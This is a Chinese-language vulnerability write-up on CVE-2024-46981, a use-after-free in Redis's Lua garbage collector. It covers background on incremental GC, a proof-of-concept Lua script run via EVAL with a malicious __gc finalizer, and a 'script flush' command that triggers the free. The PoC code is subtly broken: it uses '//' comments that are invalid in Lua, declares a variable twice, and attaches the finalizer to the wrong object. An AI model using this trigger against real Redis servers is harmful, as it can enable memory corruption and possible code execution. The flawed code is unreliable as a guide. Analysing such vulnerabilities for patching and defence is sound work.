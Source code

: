 ``` c
   ...
```
## CVE-2024-46981 UAF，可能导致RCE
披露时间：2025年1月
复现版本：7.4.1
补丁版本：7.2.7

| 严重程度 | CWE | 攻击向量 | 攻击复杂度 | 需要权限 |
| :----:  | :----: | :----: | :----: | :----: |
| 7.0 / 10 |  CWE-416 Use After Free | Local | High | Low |


### 一、前置知识
Lua 5.1 采用一种增量式三色标记清除算法来实现 gc 机制。在传统的双色标记清除算法中，gc 过程是一个整体，如果需要处理的对象过多，则主程序需要暂停过长时间。
增量式三色标记清除算法引入了第三种颜色灰色，使 gc 过程可以增量式的运行， 即 gc 过程可以分成短时间的小段穿插在主程序间执行。改进后的算法，标记阶段可以增量式的运行，随时暂停和继续。
如果始终启用Lua GC，那么GC算法可以保证内存的安全回收。但是Lua提供了api使得GC操作可以被控制。

``` shell
collectgarbage(opt[,arg])
1. "collect"：执行一个完整的垃圾回收周期，这是一个默认的选项。
2. "stop"：停止垃圾收集器（如果它在运行），直到再次使用操作为"restart"的圾回收函数collectgarbage。
3. "restart"：将重新启动垃圾收集器（如果它已经停止）。
4. "step"：执行垃圾回收的步骤，这个步骤的大小由参数arg（较大的数值意味着较多的步骤）以一种不特定的方式来决定。
```
### 二、PoC
PoC的构造来自漏洞披露者的博客[^2]，触发UAF需要2个步骤：
1. 配置了udata的恶意finalizer，并且通过EVAL命令控制GC状态。
2. 通过SCRIPT FLUSH命令调用lua_close。

**一个完整的过程如下：**
1.编写lua脚本并通过EVAL执行。
``` lua
// Use
local udata = newproxy(true);

// 配置finalizer和GC状态
local udata = newproxy(true)
getmetatable(newproxy(true)).__gc = function() 
    collectgarbage("restart") 
    collectgarbage("step") 
    redis.log(redis.LOG_WARNING,getmetatable(udata)[1]) 
end
collectgarbage("restart");
``` 
2.调用lua_close。

``` lua
// Free
127.0.0.1:6379> script flush
```
### 三、补丁
在各个script flush命令中添加一行代码，在调用lua_close之前恢复GC状态为"collect"。
